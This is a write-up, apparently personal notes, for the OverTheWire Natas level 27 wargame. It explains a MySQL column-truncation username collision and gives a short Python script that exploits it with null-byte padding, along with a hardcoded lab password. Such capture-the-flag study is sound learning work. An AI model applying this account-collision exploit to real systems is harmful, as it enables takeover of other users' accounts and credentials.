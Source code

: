 
2024-08-03 14:07

Source: #natas #web #py 

Tags: [[sql]] [[PHP]]

> [!NOTE]
> ### aka SQL Buffer overflow 

we have a login page
Basically, this code will check if the user exists in the database and if you got the right password, it will display the password. If the user does not exists, it will be created in the database

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques

```php
function dumpData($link,$usr){ 
     
    $user=mysql_real_escape_string($usr); 
     
    $query = "SELECT * from users where username='$user'"; 
    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            while ($row = mysql_fetch_assoc($res)) {  
                //return print_r($row); 
                return print_r($row,true); 
            } 
        } 
    } 
    return False; 
} 
```
it will return a number of rows and if it's greater than 0 we have multiple results, so what it does is it does this ==while loop== that it iterates through every single row (this is peculiar right?) because we only expected it to return one result like if there's only one user we're trying to login as a specific user that would probably just be one, but what if we are in the case if there are multiple results if there are multiple rows to look through

since the DB described has a 64 varchar size, we create a user named longer than the length that is setup.
we input a word with spaces that are more than 64 size and append some character in the end
the spaces are eventually truncated along with the character appended at the end 

we create a user named `"natas28" + " "*58 + "x"` and in the next request we ask for `natas28` and give the password that we used for our user. since MySQL will truncate the input to match the maximum field size. the server returns original natas28's password.  
##### In the old version of this level the above mentioned trick worked 
below is the code that works on the newer version 

```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

awesome explanation - [OverTheWire Wargames :: Natas :: Level 27 (n0j.github.io)](https://n0j.github.io/2017/07/20/otw-natas-27.html)

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/

https://sqltest.net/ - we can just experiment with sequel database and a quick and easy way without spinning up a server.